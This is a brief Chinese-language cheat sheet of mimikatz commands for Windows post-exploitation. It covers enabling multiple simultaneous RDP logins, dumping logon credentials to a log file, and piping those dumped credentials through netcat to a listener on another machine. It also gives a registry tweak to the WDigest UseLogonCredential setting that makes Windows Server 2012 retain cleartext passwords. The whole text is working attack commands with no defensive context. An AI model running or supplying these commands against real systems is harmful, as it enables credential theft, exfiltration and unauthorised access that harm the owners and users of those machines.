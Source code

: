 `允许多用户登录`
    
    mimikatz.exe,执行ts::multirdp允许多用户远程登录 重启失效
  
`mimikatz执行结果输出到文件`
    
    C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
`mimikatz执行结果输出到远程计算机(目标要上传nc)`

    local:E:\>nc -lvp 4444
    target:C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.52.1 4444 
    
    
`Tips:`

    2012抓明文需要HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest的"UseLogonCredential"设置为1，类型为DWORD 32才可以
    
   
    
    
